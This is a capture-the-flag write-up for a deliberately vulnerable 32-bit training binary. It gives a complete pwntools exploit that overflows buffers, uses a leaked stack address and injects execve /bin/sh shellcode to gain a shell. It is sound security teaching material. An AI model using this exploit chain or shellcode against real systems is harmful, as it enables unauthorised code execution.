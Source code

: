 # Early? Easy as PIE

It's Monday morning. You're a Rafflesian who's going to get a conduct slip for being late 3 times!

You sprint to the Marymount Gate, but it's locked! You could walk to the Main Gate... but then you'll get detention!.

Luckily, you remember that the Marymount Gate runs on a janky system developed by a former RJC computing student as part of a 2002 PW project. It's full of vulnerabilities — if you can break in, you can force the gate open and make it to assembly on time.

After all, who needs an adrenaline injection when you are racing against time?


# Early? Easy as PIE — Writeup

## Overview

We are given a 32-bit (`-m32`) binary with the following vulnerabilities (`use checksec --file=vuln`):
- **Stack buffer overflow** (in both `hint()` and `vuln()`)
- **Leaked stack address** (we can inject shellcode into the stack)
- **Executable stack** (`-z execstack`), allowing shellcode execution
- **No stack canaries** (`-fno-stack-protector`), making exploitation easier

The objective is to:
1. Overflow `hint()`'s buffer to modify the `password` variable.
2. Leak a stack address from `vuln()`.
3. Inject shellcode onto the stack and pivot execution to it.

---

# Step-by-Step Exploit

## Setup

```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
```

- We define a `start()` function to easily toggle between local, GDB, or remote execution.
- `context.binary` automatically detects architecture, bits, OS.
- GDB is set up with a simple script that initializes pwndbg and continues.

---

## Stage 1: Overflow `hint()` to get access to `vuln()`

```python
# Start process
io = start()

# Constructing first payload
payload = b"\x00" * 10 + p32(0xdeadbeef)
# Sending first payload
io.sendline(payload)
```

- In `hint()`, there is a 10-byte input buffer.
- By overflowing the buffer and directly overwriting the `password` variable with `0xdeadbeef`, we bypass the security check and reach `vuln()`.
- `\x00` padding is used because input is treated as a string.

---

## Stage 2: Leak the stack address

```python
# Read and print leaked address
io.recvuntil(b"at: ")
leak = io.recvline()
shellcodeAdr = int(leak.decode().strip(), 16)
log.info(f"Leaked address: {hex(shellcodeAdr)}")
```

- After reaching `vuln()`, the program leaks the address of the `buffer` on the stack.
- We capture and parse this address for later use (to inject shellcode).

---

## Stage 3: Find the buffer overflow offset

```python
payload = b""
payload += cyclic(500)
# Sending second payload
io.sendline(payload)

io.wait()

# Get EIP offset
core = io.corefile
eip_value = core.eip
eip_offset = cyclic_find(eip_value)
info('located EIP offset at {a}'.format(a=eip_offset))
```

- We send a cyclic pattern (`cyclic(500)`) to crash the program.
- After the crash, we use `pwntools` to inspect the core dump and find the exact offset where the return address (EIP) is overwritten.
- This ensures that our final payload will correctly control execution.

---

## Stage 4: Final Shellcode Exploit

```python
# Start new process
io = start()

# Constructing first payload again
payload = b"\x00" * 10 + p32(0xdeadbeef)
io.sendline(payload)

# Read and print leaked address again
io.recvuntil(b"at: ")
leak = io.recvline()
shellcodeAdr = int(leak.decode().strip(), 16)
log.info(f"Leaked address: {hex(shellcodeAdr)}")
```

- We restart the binary to exploit it cleanly without needing to crash first.
- Re-bypass the password check to access `vuln()` and re-leak the stack address.

```python
# Constructing second payload
payload = b""
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"  # xor eax,eax; push "//sh"
payload += b"\x68\x2f\x62\x69\x6e\x89\xe3\x50"  # push "/bin"; mov ebx,esp; push eax
payload += b"\x53\x89\xe1\xb0\x0b\xcd\x80"      # push ebx; mov ecx,esp; mov al,0xb; int 0x80
payload += b"\x00" * (eip_offset - len(payload)) # Padding to reach return address
payload += p32(shellcodeAdr)                     # Overwrite return address with shellcode address
# Sending second payload
io.sendline(payload)

io.interactive()
```

- We inject classic Linux x86 shellcode to execute `/bin/sh`.
- The payload is padded to exactly reach the return address.
- Finally, we overwrite the return address with the leaked buffer address to jump to our shellcode.
- After sending, we drop into an interactive shell!

---

# Key Takeaways

- Overflow the first buffer to unlock access to the vulnerable function.
- Leak a stack address to place your shellcode somewhere predictable.
- Carefully calculate offsets to control the return address.
- Old C binaries with `gets()` and executable stacks are perfect for shellcode injection!

---
